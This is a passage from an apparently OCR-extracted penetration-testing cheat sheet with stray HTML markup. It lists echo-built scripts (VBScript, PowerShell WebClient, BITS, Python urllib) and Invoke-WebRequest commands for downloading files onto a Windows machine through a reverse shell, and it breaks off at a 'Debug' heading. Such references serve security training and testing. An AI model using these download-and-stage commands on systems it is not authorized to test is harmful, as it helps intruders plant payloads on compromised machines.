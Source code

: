 ```
echo Next &gt;&gt; wget.vbs
echo ts.Close &gt;&gt; wget.vbs</td>
```

#### <span id="anchor-55"></span>Invoke-WebRequest (from reverse Windows shell)

Requires PowerShell v3.0 or higher. Relies on IE. May not work on
Windows Server.

```
PS C:\\&gt; Invoke-WebRequest -Uri **&lt;URI&gt;** -OutFile **&lt;dest\_filename&gt;** -UserAgent **&lt;useragentstring&gt;**
```

#### <span id="anchor-56"></span>PowerShell System.Net.WebClient (from
reverse Windows shell)

**NOTE:** Use only valid URLs and File Names or you will hang the shell.
Can be re-used by specifying -url and -file arguments.

```
echo param ( [string]$url = "<strong>&lt;URI&gt;</strong>", [string]$file = "<strong>&lt;filename&gt;</strong>" ) &gt; wget.ps1
echo $webclient = New-Object System.Net.WebClient &gt;&gt;wget.ps1
echo $webclient.DownloadFile($url,$file) &gt;&gt;wget.ps1</td>
```

#### <span id="anchor-57"></span>PowerShell BITS Transfer (from reverse
Windows shell)

**NOTE:** Use only valid URLs and File Names or you will hang the shell.

**NOTE:** BITS service must be running.

Can be re-used by specifying -url and -file arguments.

```
echo param ( [string]$url = "<strong>&lt;URI&gt;</strong>", [string]$file = "<strong>&lt;filename&gt;</strong>" ) &gt; bitsget.ps1
echo Import-Module BitsTransfer &gt;&gt; bitsget.ps1
echo Start-BitsTransfer -Source $url -Destination $file &gt;&gt; bitsget.ps1</p></td>
```

#### <span id="anchor-58"></span>Python Download Echo Script (Windows)

```
echo import urllib &gt; download.py
echo testfile = urllib.URLopener() &gt;&gt; download.py
echo testfile.retrieve('<strong>&lt;url_with_file&gt;</strong>', '<strong>&lt;file_name_to_save&gt;</strong>') &gt;&gt; download.py</td>
```

#### <span id="anchor-59"></span>Debug (from reverse Windows shell)
